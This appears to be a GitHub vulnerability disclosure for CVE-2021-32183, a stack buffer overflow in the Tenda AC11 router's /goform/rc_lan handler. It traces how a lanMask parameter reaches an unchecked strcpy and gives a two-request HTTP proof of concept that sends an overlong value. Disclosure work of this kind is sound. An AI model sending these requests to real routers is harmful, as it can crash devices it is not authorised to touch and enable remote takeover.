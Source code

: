 # Tenda Router AC11 Vulnerability

This vulnerability lies in the `/goform/rc_lan` page which influences the lastest version of Tenda Router AC11. (FYI, lastest version of this product is [AC11_V02.03.01.104_CN](https://www.tenda.com.cn/download/detail-3163.html))

## Vulnerability description

There is a stack buffer overflow vulnerability in function `sub_80026358` (page `/goform/rc_lan`).

This function uses `strcpy` to copy a string variable `lan_netmask` to `v15`.

![1](1.PNG)

Then the function will go to  get a nvram variable called by `nvram_get` function. `v15` is string pointer of `lan_netmask`.So variable `v2` will get a nvram variable of `lan_netmask`. After that ,`v2` will copy to a stack buffer pointed by `v10`. `v2` is directly retrived from the nvram variable `lan_netmask` without any security check.

![5](5.PNG)

the `lan_netmask` variable can be controlled by attacker by calling the function `sub_800CC270`(page `/goform/start_dhcp_server`) which gets in a parameter called `lanMask` into varialbe `v12`, which can then be used to assign to the `lan_netmask` variable.

![2](2.PNG)

If function `sub_80012558` returns zero,then the nvram variable `lan_netmask` will be set as `v12` 

![3](3.PNG)

In function `sub_80012558`,it will first get the original nvram variable of `lan_netmask` and compare with `v12`. In function `gstrcmp_0`,if two parameters are the same,it will return 0. So if `v12` is different from the original value of nvram variable `lan_netmask`,then the function `sub_80012558` will return 0.

![4](4.PNG)

So by first setting the `lan_netmask` and then requesting the page `/goform/rc_lan`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## POC

```plain
POST /goform/start_dhcp_server HTTP/1.1
Host: 192.168.0.1
Content-Length: 1043
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

module1=wifiBasicCfg&lanMask=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&doubleBandUnityEnable=false&wifiTotalEn=true&wifiEn=true&wifiSSID=Tenda_B0E040&wifiSecurityMode=WPAWPA2%2FAES&wifiPwd=Password12345&wifiHideSSID=false&LEDCloseTIme=1270219&wifiEn_5G=true&wifiSSID_5G=Tenda_B0E040_5G&wifiSecurityMode_5G=WPAWPA2%2FAES&wifiPwd_5G=Password12345&wifiHideSSID_5G=false&module2=wifiGuest&guestEn=false&guestEn_5G=false&guestSSID=Tenda_VIP&guestSSID_5G=Tenda_VIP_5G&guestPwd=&guestPwd_5G=&guestValidTime=8&guestShareSpeed=0&module3=wifiPower&wifiPower=high&wifiPower_5G=high&module5=wifiAdvCfg&wifiMode=bgn&wifiChannel=auto&wifiBandwidth=auto&wifiMode_5G=ac&wifiChannel_5G=auto&wifiBandwidth_5G=auto&wifiAntijamEn=false&module6=wifiBeamforming&wifiBeaformingEn=true&module7=wifiWPS&wpsEn=true
```

```plain
POST /goform/rc_lan HTTP/1.1
Host: 192.168.0.1
Content-Length: 103
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
## CVE ID
CVE-2021-32183
